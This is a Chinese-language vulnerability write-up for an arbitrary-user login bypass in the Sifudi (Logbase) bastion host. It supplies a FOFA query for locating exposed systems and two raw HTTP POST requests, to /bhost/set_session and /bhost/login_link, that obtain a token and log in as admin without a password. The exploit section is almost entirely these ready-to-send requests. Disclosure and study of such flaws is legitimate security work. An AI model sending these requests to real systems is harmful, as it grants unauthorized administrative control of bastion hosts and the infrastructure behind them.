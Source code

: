 # 思福迪堡垒机 任意⽤户登录漏洞

## 漏洞描述

思福迪堡垒机存在任意⽤户登录漏洞，恶意攻击者可以绕过堡垒机的密码登录验证机制，以任
意⽤户身份随意登录堡垒机Web管理界⾯，并可以正常的使⽤账户权限去操作。

## 漏洞影响

> [!NOTE]
>
> 思福迪堡垒机

## FOFA

> [!NOTE]
>
> "Logbase运维安全管理系统"

## 漏洞复现

获取INFO字段，u1参数值为⽤户名

```
POST /bhost/set_session HTTP/1.1
Host: xxx.xxx.xxx.xx
u1=admin&m1=
```

获得：**{"result":true,"info":"1562205376847","ErrMsg":""}**

带⼊INFO字段进⼊如下请求的 a0 参数值中,uCode参数值为⽤户名

```
POST /bhost/login_link HTTP/1.1
Host: xxx.xxx.xxx.xxx
a0=1562205376847&a1=&a10=2019-01-
01+10:10:10&ha=CADFDF26E649FB6284D2FD424BD294B6&uCode=admin&vdcode=
```

利用后即可登录后台

![](http://wikioss.peiqi.tech/vuln/sf-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)